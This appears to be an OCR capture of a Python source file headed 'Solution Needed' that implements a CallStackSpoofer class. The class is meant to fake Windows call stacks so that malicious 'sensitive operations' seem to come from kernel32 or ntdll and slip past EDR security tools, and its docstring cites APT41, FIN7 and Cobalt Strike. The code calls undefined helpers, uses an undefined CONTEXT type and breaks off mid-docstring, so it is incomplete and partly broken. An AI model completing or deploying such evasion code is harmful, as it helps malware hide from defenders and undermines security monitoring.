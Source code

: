 **Solution Needed:**
```python
class CallStackSpoofer:
    """
    Spoof call stacks to hide execution origin
    
    Research:
    - "Call Stack Spoofing" - mgeeky (2021)
    - "Spoofing Call Stacks To Confuse EDRs" - Elastic Security
    - Used by: APT41, FIN7, Cobalt Strike
    
    Technique:
    1. Allocate fake stack frames
    2. Point to legitimate Windows DLLs
    3. Make calls appear to originate from kernel32/ntdll
    4. Clean up after sensitive operations
    """
    
    def __init__(self):
        if sys.platform == 'win32':
            self.kernel32 = ctypes.windll.kernel32
            self.ntdll = ctypes.windll.ntdll
    
    @contextmanager
    def spoof_stack(self, fake_caller: str = "kernel32.dll!BaseThreadInitThunk"):
        """
        Temporarily spoof call stack during sensitive operations
        
        Usage:
            with spoofing.spoof_stack("ntdll.dll!LdrInitializeThunk"):
                # Sensitive operation here
                # Stack will appear to come from ntdll
                result = sensitive_function()
        """
        try:
            # 1. Get current stack pointer
            rsp = self._get_stack_pointer()
            
            # 2. Allocate fake return addresses
            fake_returns = self._create_fake_stack_frames(fake_caller)
            
            # 3. Modify stack
            original_stack = self._save_stack()
            self._inject_fake_frames(fake_returns)
            
            yield
            
        finally:
            # 4. Restore original stack
            self._restore_stack(original_stack)
    
    def _get_stack_pointer(self) -> int:
        """Get current RSP using inline assembly"""
        # Python doesn't support inline asm, use ctypes
        rsp = ctypes.c_uint64()
        # Use RtlCaptureContext to get context
        context = CONTEXT()
        context.ContextFlags = 0x10000F  # CONTEXT_ALL
        self.ntdll.RtlCaptureContext(ctypes.byref(context))
        return context.Rsp
    
    def _create_fake_stack_frames(self, target_function: str) -> List[int]:
        """
        Create fake return addresses pointing to legitimate code
```